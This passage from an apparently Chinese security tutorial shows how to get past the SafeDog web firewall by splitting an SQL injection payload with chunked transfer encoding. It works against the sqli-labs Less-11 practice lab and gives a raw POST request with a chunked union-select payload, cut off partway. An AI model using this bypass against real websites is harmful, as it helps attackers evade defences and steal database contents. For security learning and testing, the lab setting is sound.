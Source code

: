     0  
      
    

![](https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20230304135621.png)

说明是可以识别分块传输的东西，那么我们就可以构造payload来看是否可以绕过waf。

# 绕过安全狗的sql注入：

这里先解决一下绕过安全狗的方式，在常见的方式中，我们都采用垃圾字符填充的方式来绕过安全狗，虽然效果很好，但是较为复杂，也容易出现被狗咬伤的情况，所以为了解决这一现状，小秦同学翻阅之后发现了分块传输的方式来绕过安全狗。但是分块传输目前来看只能适用于post请求。get请求还是比较难说。

### 以sql-labs为例：

在sqli-labs的第十一关，我们发现了可以用post请求。先正常看看过滤哪些字符，这里开门见山，直接把'union select
(database()),2#。这个东西进行了过滤  
![](https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20230304135623.png)  
咱们可以尝试使用分块传输的方式来进行绕过。这里在请求头中添加。

    
    
    Transfer-Encoding: chunked  
    这个东西，然后进行分块即可。  
    

#### 读取数据库名

    
    
    POST /sqli-labs-master/Less-11/ HTTP/1.1  
    Host: 192.168.172.161  
    Content-Length: 251  
    Cache-Control: max-age=0  
    Upgrade-Insecure-Requests: 1  
    Origin: http://192.168.172.161  
    Content-Type: application/x-www-form-urlencoded  
    User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/106.0.0.0 Safari/537.36  
    Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9  
    Referer: http://192.168.172.161/sqli-labs-master/Less-11/  
    Accept-Encoding: gzip, deflate  
    Accept-Language: zh-CN,zh;q=0.9  
    Connection: close  
    Transfer-Encoding: chunked  
      
    1  
    u  
    4  
    name  
    1  
    =  
    1  
    &  
    2  
    pa  
    4  
    sswd  
    1  
    =  
    3  
    %27  
    2  
    un  
    1  
    i  